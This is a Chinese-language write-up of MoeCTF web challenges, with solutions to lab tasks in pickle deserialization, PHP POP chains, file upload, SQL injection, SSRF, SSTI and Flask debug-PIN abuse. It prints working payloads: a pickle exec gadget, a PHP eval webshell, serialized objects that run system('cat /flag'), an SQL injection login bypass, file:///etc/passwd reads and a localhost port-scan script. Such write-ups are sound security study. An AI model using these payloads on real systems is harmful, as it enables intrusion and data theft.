



---
tags:
  - notes
comments: true
dg-publish: true
level: ctfwp
---

### PetStore

看半天是看不懂的，根据提示

> [!TODO]
>
> - [Pickle反序列化](https://goodapple.top/archives/1069)

结合上面的文章，再看源码中的关于 import 的代码，有：

```python title="petStore"
import base64
import pickle
 
class Test:
    def __reduce__(self):
        return (exec, ("import os; store.create_pet(os.getenv('FLAG'), 'flag');",))
 
if __name__ == "__main__":
    print(base64.b64encode(pickle.dumps(Test())).decode("utf-8"))

# gASVUwAAAAAAAACMCGJ1aWx0aW5zlIwEZXhlY5STlIw3aW1wb3J0IG9zOyBzdG9yZS5jcmVhdGVfcGV0KG9zLmdldGVudignRkxBRycpLCAnZmxhZycpO5SFlFKULg==
```

将其在 “Import a Pet” 中导入后，可以在 “current Pet” 中看到 flag

> [!FLAG]
>
> moectf{5t4rRYmEOW' s_fLAG-H4s_b33n_ACCEPted-Ac4c@c @Ca}

### 垫刀之路

#### 01 MoeCTF？启动！

已经获取了 shell 当然是看看所有的东西了。

先是 `ls /` 发现 `flag flag.sh` ，使用 `cat` 查看，提示我们看下环境变量。

习惯性使用 `echo $PATH` ，没有东西；后来发现可以使用 `env` 或者是 `set` 就好了。

- **env命令** 用于显示系统中已存在的环境变量，以及在定义的环境中执行指令；
- **set命令** 作用主要是显示系统中已经存在的shell变量。

> [!FLAG]
>
> moectf{WELCOM3_TO_MoeCtf_aNd_RoaDI_5tArTUp-bY-SxRHHH69}

#### 02 普通的文件上传

[浅谈php一句话木马](https://xz.aliyun.com/t/6957)

完全没有过滤，那很简单，直接上传包含一句话木马 `<?php @eval ($_POST['1']);` 的 1.php 文件，并使用中国蚁剑连接。

当然，参考于第一题 flag 在环境变量中，我们直接以 POST 的形式提交 `1=phpinfo();`  就可以将其输出，之后 `ctrl+f` 查找即可。

> [!FLAG]
>
> moectf{wo_wang_ji_le}

#### 03 这是一个图床

抓包绕过。

> [!FLAG]
>
> moectf{bYP@S5-tHE_MImE_tyPE_@nd-ExTen5i0N-y0u_C@N-Do-It2}

#### 04 一个文件浏览器

允许根据路径获取文件（夹），直接[目录穿透到根目录下](attachments/WEB-11.png)，在 tmp/flag 下找到：

> [!FLAG]
>
> moectf{Cr0sS-THe_D1RECtory_AnD_yoU_MaY_fIND_eTc-PaSSWD13}

#### 05 登陆网站

登入……回想 zjubus 上的[日哭school-bus](https://zjusec.com/challenges/44)，我们只知道用户名也能够登入，因为可以将后面全部注释掉。但是此处的登入比较奇怪，我们输入后点击登录，显示登入失败后，使用 hackbar LOAD 却没有效果。查看源码发现：

```html
<script>
    function login() {
        $.ajax({
            type: "post",
            dataType: "text",
            url: "login.php",
            data: $('#form').serialize(),
            success: function (result) {
                console.log(result)
                $('#span_result').html(result)
            },
            error: function (result) {
                console.log(result)
                $('#span_result').html(result)
            },
        });
    }
</script>
```

可以看到是以 post 的形式 login.php 的网址发送了请求，所以我们将 url 改为 `localhost:port/login.php` ，然后以 post 请求发送，和 sql 一样的[注入即可](attachments/WEB.png)。

> [!FLAG]
>
> moectf{Hav3_tHe-U5EFu1_pA5swOrd_ANd_GO-EV3ryWHEre-onIY-5ql_can_do0}

#### 06 pop base mini moe

```php title="06.php"
<?php

class A {
    // 注意 private 属性的序列化哦
    private $evil;

    // 如何赋值呢
    private $a;

    function __destruct() {
        $s = $this->a;
        $s($this->evil);
    }
}

class B {
    private $b;

    function __invoke($c) {
        $s = $this->b;
        $s($c);
    }
}


 if(isset($_GET['data']))
 {
     $a = unserialize($_GET['data']);
 }
 else {
     highlight_file(__FILE__);
 }
```

显然，由 B 我们可以决定执行的函数，由 A 我们可以调用 B 并决定执行的参数，实现任意代码执行。

我们利用 php 获得序列化字符串：

```php title="serialize.php"
<?php

class A
{
    private $evil;
    private $a;
    public function __construct($evil, $a)
    {
        $this->evil = $evil;
        $this->a = $a;
    }
}

class B
{
    private $b;
    public function __construct($b)
    {
        $this->b = $b;
    }
}

$bInstance = new B("system");
$aInstance = new A("ls /", $bInstance);

$serializedString = serialize($aInstance);

echo $serializedString;
```


需要注意其中 private 和 protected 类型的变量的字符串字符数不对，同时分析可知 `A evil` `A a` `B b` 之间应该有不可见字符，我们使用 `%00` 进行填充：



可以看见有 flag，修改 `s:4:"ls /";` => `s:9:"cat /flag";` （当然也可能是个文件夹，用 `s:8:"ls /flag";`）

> [!FLAG]
>
> moectf{PlEA53_Klck-CFbb_beCAu53_hE_R41S3_p0PMoE-ln_W3ek1_haha0}


#### 07 泄漏的密码

[Hacking the Debugging Pin of a Flask Application](https://b33pl0g1c.medium.com/hacking-the-debugging-pin-of-a-flask-application-7364794c4948)

阅读上面的文章（在本题我们只需要看开头的部分即可），了解到 console 这个控制台，又有了 pin 码，那就直接登进去，[python 任意代码执行](attachments/WEB-15.png)了。

> [!FLAG]
>
> moectf{DONt-u5iNG_FLASK-by_D3buG-MOd_AnD_Ie@k-YOUr_Pln7}

### 电院_Backend

根据 login.php 源码，可以看出来是要登入，且是 SQL 注入（因为 Email 的正则表达式检查很简单），`aaa@bbb.com'%201=1%20#` [作为邮箱即可](attachments/WEB-22.png)；

登入界面呢？看源码没有，看 robots.txt 就好了：

> [!FLAG]
>
> moectf{l_dld_nOt_ExPect-y0U-tO-B3_sO-STr0Ng1e402}

### pop moe

类垫刀之路 06，这次是只能够使用 eval ，我们优先使用 `phpinfo();`

```php title="pop.php"
<?php

class class003
{
    public $mystr = "phpinfo();";
}

class class002
{
    private $sec;
    function __construct()
    {
        $this->sec = new class003();
    }
}

class class001
{
    public $pay10ad = "dangerous";
    public $a;

    function __construct()
    {
        $this->a = new class002();
    }
}
class class000
{
    private $pay10ad = 1;
    protected $what;

    function __construct()
    {
        $this->what = new class001();
    }
}
$obj0 = new class000();
$serializedString = serialize($obj0); // 序列化class000对象  
echo $serializedString;
```

同样需要添加 `%00` ，[进入 phpinfo 界面后搜 moectf](attachments/WEB-14.png)

> [!FLAG]
>
> moectf{lT-S3eMs-tH4t-YoU_KnOw_wHAt_1s-p0p-1N-PhPppPpPP!!!26}

### ImageCloud

> [!NOTE]
>
> [flask服务器](https://xz.aliyun.com/t/12163?time__1311=GqGxRDuDgQD%3DqGN4eeqBKwc4jxWw3OTxEbD)

使用 python 爆破内部端口：

```python title="ImageCloud.py"
import requests

base_url = "http://127.0.0.1:55844/image?url=http://localhost:{}/image/flag.jpg"

for port in range(5001, 6001):
    print(f"尝试端口: {port}")
    try:
        url = base_url.format(port)
        response = requests.get(url, timeout=5)
        if response.status_code == 200:
            print(f"成功访问的端口是: {port}")
            break
    except requests.RequestException:
        continue

else:
    print("未找到可成功访问的端口")
```

[成功爆破](attachments/WEB-10.png) => http://127.0.0.1:55844/image?url=http://localhost:5381/image/flag.jpg 访问获取图片

> [!FLAG]
>
> moectf{cEtTeBRAT3_y0u_Att4cK_t0-my-tmAge_CtOuDhhHhhH410}

### ImageCloud前置

`?url=` 文件读取 => `?url=file:///etc/passwd` => [flag](attachments/WEB-9.png)

> [!FLAG]
>
> moectf{I-@m-v3RY_SoRrY-abouT_tHiS42911bf8}

### ProveYourLove

根据题目提示，我们需要提交 300 份；而当我们提交后会被 confessionSubmitted 检测，故将其修改即可：

```python title="ProveYourLove.py"
import aiohttp
import asyncio
import json

BASE_URL = "http://127.0.0.1:53419"


async def submit_forms(count):
    async with aiohttp.ClientSession() as session:
        for i in range(count):
            form_data = {
                "nickname": f"User{i}",
                "user_gender": "other",
                "target": f"Target{i}",
                "target_gender": "other",
                "message": f"This is confession number {i + 1}",
                "anonymous": "false",
            }

            try:
                await session.options(f"{BASE_URL}/questionnaire")
                async with session.post(
                    f"{BASE_URL}/questionnaire", json=form_data
                ) as response:
                    result = await response.json()
                    if result["success"]:
                        print(f"Form {i + 1} submitted successfully")
                        async with session.get(
                            f"{BASE_URL}/confession_count"
                        ) as count_response:
                            data = await count_response.json()
                        print(f"Count: {data['count']}")
                        print(f"Flag: {data['flag']}")
                        print(f"Qixi_flag: {data['Qixi_flag']}")
                        print("-------------------")
                    else:
                        print(f"Form {i + 1} submission failed")

            except Exception as error:
                print(f"Error submitting form {i + 1}:", str(error))
            await asyncio.sleep(0.01)

asyncio.run(submit_forms(302))

```

因为 sleep 设置的很短，很快就[有了 flag](attachments/WEB-8.png)；在 console 中使用 js 脚本也是可以的：

```javascript title="ProveYourLove.js"
async function submitForms(count) {
    for (let i = 0; i < count; i++) {
        // 重置localStorage
        localStorage.removeItem('confessionSubmitted');

        // 准备表单数据
        const formData = {
            nickname: `User${i}`,
            user_gender: 'other',
            target: `Target${i}`,
            target_gender: 'other',
            message: `This is confession number ${i + 1}`,
            anonymous: 'false'
        };

        try {
            // 发送OPTIONS请求
            await fetch('/questionnaire', { method: 'OPTIONS' });

            // 提交表单
            const response = await fetch('/questionnaire', {
                method: 'POST',
                headers: { 'Content-Type': 'application/json' },
                body: JSON.stringify(formData)
            });

            const result = await response.json();

            if (result.success) {
                console.log(`Form ${i + 1} submitted successfully`);

                // 获取更新后的数据
                const countResponse = await fetch('/confession_count');
                const data = await countResponse.json();

                console.log(`Count: ${data.count}`);
                console.log(`Flag: ${data.flag}`);
                console.log(`Qixi_flag: ${data.Qixi_flag}`);
                console.log('-------------------');
            } else {
                console.error(`Form ${i + 1} submission failed`);
            }
        } catch (error) {
            console.error(`Error submitting form ${i + 1}:`, error);
        }

        // 添加一个小延迟，以避免可能的速率限制
        await new Promise(resolve => setTimeout(resolve, 10));
    }
}

// 执行302次提交
submitForms(302);
```

> [!FLAG]
>
> `moectf{COngrATU1AtI0nS_0N-b3ComlnG_@_IlCKING_D0Gb}`

### who's blog?

提示我们提供 `id` 使用 `$_GET` 进行传参，发现将我们传入的值放在了网站中。



经过查阅，猜测为 SSTI ，我们尝试 `?id={{}}` ，发现是 [python 的 jinja2](attachments/WEB-18.png) 模板（当然，搭建过 mkdocs 也会清楚其使用 python 实现），故我们[利用 hackbar 进行注入](attachments/WEB-19.png)，确实是 [能够执行](attachments/WEB-20.png)，修改 `popen('ls')` 的内容就可以执行任意代码。

使用 find 没找到，执行 `set` ，就发现了，或者[尝试 `echo $PATH`](attachments/WEB-21.png) （当然前者优先，后者是已经知道位置后的选择）

> [!FLAG]
>
> moectf{DO-yoU-kn0W-SsTI_aND_PLe4sE_v1slt-sXRHHh5-B10G2} 

> [!NOTE]
>
> -  [一篇文章带你理解漏洞之 SSTI 漏洞](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/)
> - [MVC模式](https://devv.ai/search?threadId=dzj766lpwbnk)

### 静态网页

在 Network 中找到了 `final1l1l_challenge.php`



```php title="final1l1l_challenge.php"
<?php  
highlight_file('final1l1l_challenge.php');  
error_reporting(0);  
include 'flag.php';  
  
$a = $_GET['a'];  
$b = $_POST['b'];  
if (isset($a) && isset($b)) {  
    if (!is_numeric($a) && !is_numeric($b)) {  
        if ($a == 0 && md5($a) == $b[$a]) {  
            echo $flag;  
        } else {  
            die('noooooooooooo');  
        }  
    } else {  
        die( 'Notice the param type!');  
    }  
} else {  
    die( 'Where is your param?');  
}
```

显然 a,b 都由我们决定；要获取 flag，我们需要找到 a,b 满足：

- a,b 都不是数字；
- a 弱比较等于 0，可以猜测 a=$str 或 a=0xxxx；
- b[0] 弱比较等于 md5(a).

考虑 ctf101 上的讲的 0exxx == 0 ，我们不难猜到 md5(a)=0exxx 且 b=0xxx 即可；当然不是这样也无妨，毕竟 b[0] 我们完全可以自己决定。

> [!FLAG]
>
> moectf{I5_My_WIfE-P10_CHaN-cute-0r_Y0uR-Wif3-I5_pHP?b2}

### 勇闯铜人阵

```python title="listenToTheVoice"
import re
import requests

request = requests.session()
url = "http://127.0.0.1:53246/"
begin = {"player": "ddd", "direct": "弟子明白"}

pattern = re.compile('<h1 id="status">\s*(.+?)\s*</h1>')

# 方向映射
directions_map = {
    "1": "北方",
    "2": "东北方",
    "3": "东方",
    "4": "东南方",
    "5": "南方",
    "6": "西南方",
    "7": "西方",
    "8": "西北方",
}


def format_directions(nums):
    if len(nums) == 1:
        # 列表中只有一个数字，直接返回方向名称
        direction = directions_map.get(nums[0], "??")
        return f"{direction}"

    formatted_directions = []
    for num in nums:
        direction = directions_map.get(num, "??")
        formatted_directions.append(f"{direction}一个")

    return "，".join(formatted_directions)


for i in range(6):
    if i == 0:
        response = request.post(url=url, data=begin)
        print(response.text)
    else:
        direct_str = format_directions(nums)
        print(direct_str, "direct")
        response = request.post(url=url, data={"player": "ddd", "direct": direct_str})

    num = re.findall(pattern, response.text)[0]
    nums = re.findall(r"\d+", num)  # 直接使用提取出来的顺序
    directions = [directions_map.get(n, "??") for n in nums]
    print(f"方向数字: {nums}")
    print(f"对应方位: {directions}\n")

print(response.text)

```

> [!FLAG]
>
> moectf{WELL1L_y0U_Pa5S_th3-cH@L13nGE_FRrRRROM_tOnR3N9}

### 弗拉格之地的挑战

类似于校巴上的“小乌龟找妈妈”（虽然这道题我还没做出来……），考察对网页可能藏信息的熟悉程度。

#### flag1ab.html

查看源码 => `flag1: bW9lY3Rm`

#### flag2hh.php

[查看消息头](attachments/WEB-1.png) => `flag2: e0FmdEV`

#### flag3cad.php

使用 cookie-editor + hackbar [达到要求](attachments/WEB-2.png) => `flag3: yX3RoMXN`

#### flag4bbc.php

hackbar 中[修改 Referer](attachments/WEB-3.png) => 查看源码发现 js 脚本；我们为什么要靠它帮我们发送获取 flag 的请求？[使用 hackbar 发送](attachments/WEB-4.png) => `flag4: fdFVUMHJ`

#### flag5sxr.php

查看源码，js 脚本，可以发现如果我们输入了 "I want flag" ，会返回 false，我们在控制台中[覆盖调它](attachments/WEB-5.png)再输入即可 => `flag5: fSV90aDF`

#### flag6diw.php

- `if (preg_match('/flag/', $_GET['moe']))`：如果 GET 请求中的 `moe` 参数的值中包含 'flag'（区分大小写），程序将调用 `die("no");` 函数，终止执行并输出 "no"。
- `elseif (preg_match('/flag/i', $_GET['moe']))`：如果 `moe` 参数的值中包含 'flag'（不区分大小写），则输出 "flag6: xxx"（其中 `xxx` 可以是某个实际的值或者其他输出）。

[使用 hackbar 传参 FLAG](attachments/WEB-6.png) 即可 => `flag6: rZV9VX2t`

#### flag7fxxkfinal.php

使用蚁剑连接，在 [/flag7 中](attachments/WEB-7.png)找到最后一段 => `flag7: rbm93X1dlQn0=`

拼起来并解 base64 编码：

> [!FLAG]
>
> moectf{AftEr_th1s_tUT0r_I_th1ke_U_kknow_WeB}

### 弗拉格之地的入口

很显然，“爬虫” 提示我们查看 `robots.txt` 文件，继而打开 webtutorEntry.php，获取 flag。

> [!FLAG]
>
> moectf{CONgRaTUl@tiOn-fOr-Know1nG-RoBoTs_Txtb2cd}

